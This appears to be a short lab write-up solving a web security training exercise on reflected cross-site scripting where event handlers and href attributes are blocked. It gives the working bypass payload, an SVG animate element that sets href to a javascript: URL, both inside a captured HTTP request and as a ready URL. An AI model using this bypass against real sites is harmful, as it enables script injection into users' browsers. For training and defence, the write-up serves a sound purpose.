

## Lab: Reflected XSS with event handlers and `href` attributes blocked

Description:

- This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked.

- To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the `alert` function.

- Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

```
<a href="">Click me</a>
```

```
GET /?search=https://0a50008204ffca2181587f500010009c.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E HTTP/2
Host: 0a50008204ffca2181587f500010009c.web-security-academy.net
Cookie: session=74N4WCzSxB8yXQpkPUBImup2H8pn0CuZ
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Manual Payload:

```
https://0a50008204ffca2181587f500010009c.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

Photos:

<p align="center">
    <picture>
        
    </picture>
</p>